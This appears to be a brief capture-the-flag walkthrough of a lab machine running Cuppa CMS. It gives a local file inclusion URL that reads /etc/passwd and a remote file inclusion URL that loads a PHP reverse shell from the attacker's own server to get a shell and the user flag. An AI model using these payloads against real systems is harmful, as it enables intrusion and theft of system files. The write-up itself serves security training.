

https://www.exploit-db.com/exploits/25971
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
http://10.10.82.56/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
Prepare PHP Reverse Shell
https://github.com/pentestmonkey/php-reverse-shell
Then setup http server with python

Setup nc reverse shell
Type on your browser
http://10.10.82.56/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.29.62/reverse.php
We got reverse shell!
Go to /home/milesdyson to get user flag